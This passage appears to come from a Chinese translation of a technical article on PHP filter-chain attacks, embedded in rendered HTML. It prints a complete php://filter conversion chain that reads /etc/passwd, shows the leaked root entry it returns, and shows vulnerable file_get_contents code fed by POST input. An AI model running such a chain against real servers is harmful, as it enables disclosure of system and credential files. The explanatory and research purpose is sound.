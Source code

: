 <span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.ISO2022KR.UTF16|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.855.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.855.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|</span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
结果如下：  
<table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">Hello, world!!!root:x:0:0:root:/root:/bin/bash...</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
**PHP 过滤器：前缀、后缀和崩溃**  
  
遗憾的是，文件读取并不总是像下面这样简单：  
<table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><strong><span style="font-family:Consolas;line-height:120%;mso-ansi-font-weight:bold;font-size:11.0000pt;">echo</span></strong><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"> file_get_contents($_POST[&#39;file&#39;]);</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  
通常，文件不会按原样返回，但会以某种方式进行解析或检查。例如，我经常遇到这段代码的变体，它要求你的文件是有效的 JSON  
：  
<table><tbody><tr><td width="414" valign="top" style="padding: 3pt 6pt 1.5pt;border-width: 1pt;border-color: rgb(222, 224, 227);background: rgb(245, 246, 247);"><p style="margin-top:6.0000pt;margin-bottom:6.0000pt;text-align:left;line-height:120%;"><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;">Plaintext</span><span style="font-family:Consolas;line-height:120%;color:rgb(100,106,115);font-size:11.0000pt;"><br/></span><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;">$data = file_get_contents($_POST[&#39;url&#39;]);$data = json_decode($data);</span><strong><span style="font-family:Consolas;line-height:120%;mso-ansi-font-weight:bold;font-size:11.0000pt;">echo</span></strong><span style="font-family:Consolas;line-height:120%;font-size:11.0000pt;"> $data-&gt;message;</span><span style="font-family:Calibri;mso-fareast-font-family:宋体;mso-bidi-font-family:&#39;Times New Roman&#39;;font-size:10.5000pt;"><o:p></o:p></span></p></td></tr></tbody></table>  